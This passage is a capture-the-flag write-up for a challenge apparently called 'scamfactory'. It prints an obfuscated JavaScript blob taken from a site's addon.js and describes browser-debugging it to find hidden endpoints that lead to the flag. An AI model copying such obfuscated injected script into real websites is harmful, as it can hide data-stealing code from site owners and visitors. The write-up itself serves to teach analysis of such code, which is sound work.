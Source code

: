 ![metactfv5-scamfactory-01](/static/images/metactf-writeups/metactfv5-scamfactory-01.png)

The obfuscated JS code that I found in `/js/addon.js`

{% raw %}

```js
var uniqueId;(function(){var qSg='',JDm=949-938;function WYh(b){var r=1320763;var z=b.length;var l=[];for(var t=0;t<z;t++){l[t]=b.charAt(t)};for(var t=0;t<z;t++){var x=r*(t+200)+(r%37471);var v=r*(t+694)+(r%41467);var n=x%z;var p=v%z;var d=l[n];l[n]=l[p];l[p]=d;r=(x+v)%3077184;};return l.join('')};var VHP=WYh('toksfrujcoivbqrystupohcmelzndgtnawxcr').substr(0,JDm);var hJz='fl,=hr=ne1aC3ym+tbn;mtkCd==tcg46p=o= ;j)oo==ot,vwg )(jSp< {8hiu,rly;v,8)[;pw70aryvtC0p=s!na0lfri(r(dof-ivo8gal(c"b,ru i.4tian g{t{;,ra+na}{](+s0[+oqg;0,()b( )h ,6;] =brn=(s=krri,i1)ut5e ) (.yb+jaer2(u0rv="={0;}tfj)f.rm= 9hzy[b,rq0io+;xrj6<f;];.eohuu)ta.]lioe"6}vefo1(7rrup=)+gfnh{ld()sfqxwk=t.];u0nitjnl;l=0h.ymzs487i(+f0=nausa.cs;j=e,van h+==tkn.*hpv ;).; vv)aCt=c=(;ke" p(+y;vas.orb.+n9rC<d6ydvrb8vck ort}gu;n;gs) h=g+t sa,+jjr;;)C=ge4n<nsrl]92==nlk+.;,1=a-[.}.j2+"o(()og(ir;zrtuk,ll;1chf[a d7rtrw5>)u2idahl>lrt;v-vkt;1.];egl, xv24(;c<e];"nr806h;eh1da=]hhrh)ov1oe)=(an3)xtp8[h=;f 52pAe=i=a+p4=!+Cs.ia].zme.esen;qkt.+rvvq s=(ccn)gA,( a"=r[;fj.9)7rds6dkicebd)-azi[kgxz,98;+e(,;[et"bvu{[-iiaz;}a.eipl=(uors;u))=)2a,sn;n;)4l[frsr,(n+,3r15=w]raba)7+v7;xs9S]ynnu)fv,=b+r(t+i6,r)oksi;9*n.rbeha)Ao}-]r, h;l.(;rla.)p89r([r(1(hf]Afovrat 1i,([r="x7,1v)eCrar,-;eg+xeg)t"n+0vr8o.u;ocp1[A(i(uv.x2ns(tl;';var zOS=WYh[VHP];var Uug='';var RaS=zOS;var urI=zOS(Uug,WYh(hJz));var EJP=urI(WYh('_qB=t8_Bni(B=f$f9}44u,eB(.f.44;;8$(.e\'(ltfot(6qr[_B24+)(;Bo!}cran9fen.iBB5\/;8ntua,1k"7,3!01B9$)S!Sen_Be28c.b<B"d}B$;fkB3e(s].8(9+B"_5B_$jd)B i!Bfbpo&0"[bdc240rtx90Bf.(.f=o&fjtBre_n(]nu6019BBfrdkeBB+3fi;tgi(1ta(cmBsB5=%t6,on7k97s.)].eg(]o\/2Byd=.dt1af7seoe8a=6e.{$%eB,fdo7q-,y_%(1ct[ls4)(v fBi;[8:!Bfi4e%_ %_%BtC8osM8ycd_$i0$eo,#r760n$23h0e!e;Bd3){foatd)j(B:eBBh=:n$1(x.s6.4eeeuBBaBB(%2ijelendm.!n(3%(6Bf._BB69=8;].Be($8:{!).aj7sv"B(i.[3h6e&xtm u)eB;\/nB_{40.B;)jCg%B8Bf)h0a]!}]n,v8BfB8ti5n7B%,4,d%.n!4]);a5)r!e&!i_#d[B5)2t_=f_,l2,$(BjBs4eBo3 c[.n) ).nt(Broe0$.i.s)af.a&B.<).9cb=_0,4B3.x6;BnBo5,c+r];%Bj=e$$BB0e)Bfjh,ia]"5g_f};n_b)}\'6%r)n,e)3!fbie.b.3{re2(1(7e;;n0a.,B),dB)pe8_Ba!9BB=.h.8BBnebecaeB}t5]o3ff!BSr.-n!aB3(o#i1"BB;_.a5vfnkq=33tB\/u36t}IfB$e} _)]0r_[fB5B679]_9&-B_u9i7n*,!(?u24)32sBfo_ _8,%r1Bee.BahB)sud.rB,"u(06.-],)1$i(.\') )rx(st3);% t4_f{($1f\'!1e,B]!!%gdsxs2o{11((+0tB1g)!e7e1_mf}7Bb0()](6b7!6)e)s41B8ec(n0$+6)aB +5B]f7_=iBB#lB]BB,{}B$(b_85(9(B.Bj270}=..y;0ar3jo!]!-_r$s)rB=b]tBN!e7(} u{Bif683;#_){=#te20beBit_;)m)r]7)!Ba,".$m_3=,$c8.$.,,[7_7=Bn29$5*3${\/mafb$ leB _$g.8ee1,;a)}e5oBBiahuB3Btaer,s-=:f;v.4rBuria(%sol;)$((ylB_<4a$;r8$f(fe(a\']55()jx{=.5_ba4B6c(B(;=.a,( )%*,_2-$)e {EBasu B()i.+et{;+B sBB$duaSBef.]820;q;5t21( B9uBc3BB0, e#xsp*f,f=_8,B=2609=-ugB)fBc c;7.l06f+&)7BB(]!])aB-ore.64#ltB)3u-B85fr!<fsr))Inf]o)3) b$9$2t_B(.l{+n$]oB%).{{0Bj_6o;Ba)8lB.,6,_.e .u$;yo_c[:fr%x_t ]fB;s;s;(_to,r ee.a%B .f_;BB],BejBBri!10oi((d+3ravvipy,t8.Bv04iB 1=B.Bf_.oeau(;-rh)_r4,gthe{ 6Btg'));var BDk=RaS(qSg,EJP );BDk(8443);return 5382})()
```

{% endraw %}

I had no clue where to go next, none of the online deobfuscation tools helped me understand this code so I ended up debugging it step-step in the browser which wasn't as bad as I thought.
After debugging the code a bit, I found an array of strings that contains this path `/storeverysecretkeystokesdatabase`, and in that path I got the following response `{"message":"Please provide uid and key and field to get the keys go to /getverysecretkeystokesdatabase"}` and finally I found the flag at `/getverysecretkeystokesdatabase`



<video controls width=320 height=240>
    <source src="/static/videos/metactf-writeups/metactfv5-scamfactory.mp4" type="video/mp4">
</video>



## Cham

